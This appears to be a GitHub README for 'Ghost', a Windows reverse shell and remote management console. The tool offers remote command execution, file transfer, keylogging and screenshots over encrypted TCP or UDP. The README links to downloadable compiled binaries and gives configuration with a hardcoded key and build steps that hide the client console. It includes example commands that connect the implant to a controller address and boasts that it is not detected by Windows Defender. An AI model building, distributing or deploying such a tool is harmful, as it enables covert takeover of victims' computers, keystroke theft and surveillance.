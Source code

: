 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 

<dl>
  <dt>Some of its features are
  <dd>
  <dd>-Sends commands to cmd and powershell,
  <dd>-Creates or extracts zip files
  <dd>-Downloads files from the Internet,
  <dd>-Supports file upload and download,
  <dd>-Creates keylogger program,
  <dd>-Takes a screenshot
  <dd>-Communication between server and client is AES encrypted.
</dl>

The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> 1) Compiled without using the "--noconsole" command 
  <dd>
  <dd> ghost_v4_showconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
</dl>

<dl>
  <dt> 2) Compiled using the "--noconsole" command
  <dd> 
  <dd> ghost_v4_noconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
</dl>



Requirements
---
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

```
pip install pycryptodome
pip install  requests
pip install pyautogui
pip install pyinstaller
```


"pyinstaller" will be used to make the code one piece executable


Settings
--------------

**(1) master.py**

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
``` 
    
   
  **(2) slave.py**
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
```

<dl>
  <dt>
  <dt> Except for encryption, these values can be changed with initial parameters if desired.
  <dd>
  <dd> master.exe -h      ==> Shows help parameters.
  <dd> slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling
</dl>
  
<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> master -udp -c:cp857  -t:00 8080             ==> (8080 port)
  <dd> master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)
  <dd> master 7272                                  ==> (7272 port)
  <dd> slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)
  <dd> slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)
  <dd> slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)
</dl>

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


Compilation
------------

(show console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --icon=slave.ico slave.py
```
or (hide console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --noconsole --icon=slave.ico slave.py
```

Commands for Master.py
-----------------------

`commands      ==> Shows commands very briefly.`

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


`help          ==> Shows commands in detail.`

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
-------
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some Images of the Working of the Program
------------------------------------

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162613551-a6027fef-7673-46a5-933f-251f4f26efcb.JPG)


Windows Defender
-----------------
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


Legal Warning
------------------
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

